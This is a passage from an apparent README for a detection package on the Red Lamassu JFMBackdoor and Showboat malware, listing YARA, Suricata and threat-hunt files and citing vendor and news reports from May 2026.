| [`yara/RedLamassu_JFMBackdoor_Showboat_2026.yar`](./yara/RedLamassu_JFMBackdoor_Showboat_2026.yar) | YARA — three rules (PE heuristic, ELF heuristic, known-hash) |
| [`suricata/red_lamassu_2026_05.rules`](./suricata/red_lamassu_2026_05.rules) | Suricata 7.x — 10 sids (DNS, TLS SNI, HTTP URI, X.509 fingerprint) |
| [`hunts/peak_h1_jfmbackdoor_fltmc_sideload.md`](./hunts/peak_h1_jfmbackdoor_fltmc_sideload.md) | PEAK H1 — side-load chain inside 1 h |
| [`hunts/peak_h2_showboat_kworker_masquerade.md`](./hunts/peak_h2_showboat_kworker_masquerade.md) | PEAK H2 — kworker masquerade with outbound egress |
| [`hunts/peak_h3_red_lamassu_cert_pivot.md`](./hunts/peak_h3_red_lamassu_cert_pivot.md) | PEAK H3 — X.509 fingerprint pivot for primary-cluster discovery |

## Sources

- [Open Directory, Open Season: Inside Red Lamassu's JFMBackdoor — PwC Threat Intelligence (2026-05-21)](https://www.pwc.com/gx/en/issues/cybersecurity/cyber-threat-intelligence/red-lamassu-open-season.html)
- [Introducing Showboat: A new malware family taunts defenses and targets international telecom firms — Lumen Black Lotus Labs (2026-05-21)](https://www.lumen.com/blog/en-us/introducing-showboat-a-new-malware-family-taunts-defenses-and-targets-international-telecom-firms)
- [PwC IOC repository for the JFMBackdoor blog](https://github.com/PwCUK-CTO/TI-blog-2026-Red-Lamassu-JFMBackdoor)
- [Showboat Linux Malware Hits Middle East Telecom with SOCKS5 Proxy Backdoor — The Hacker News (2026-05-21)](https://thehackernews.com/2026/05/showboat-linux-malware-hits-middle-east.html)
- [Chinese hackers target telcos with new Linux, Windows malware — BleepingComputer (2026-05-21)](https://www.bleepingcomputer.com/news/security/chinese-hackers-target-telcos-with-new-linux-windows-malware/)
- [Chinese APTs Share Linux Backdoor in Telco Attacks — Dark Reading (2026-05-21)](https://www.darkreading.com/threat-intelligence/chinese-apts-linux-backdoor-telco-attacks)
- [Hackers bypass SonicWall VPN MFA due to incomplete patching — BleepingComputer (2026-05-20)](https://www.bleepingcomputer.com/news/security/hackers-bypass-sonicwall-vpn-mfa-due-to-incomplete-patching/)
- [CVE-2026-9082: Highly Critical SQL Injection in Drupal Core (SA-CORE-2026-004) — Tenable Research (2026-05-20)](https://www.tenable.com/blog/cve-2026-9082-highly-critical-sql-injection-vulnerability-in-drupal-core-sa-core-2026-004)
- [Authorities dismantle First VPN, used by ransomware actors — Help Net Security (2026-05-21)](https://www.helpnetsecurity.com/2026/05/21/operation-saffron-first-vpn-takedown/)
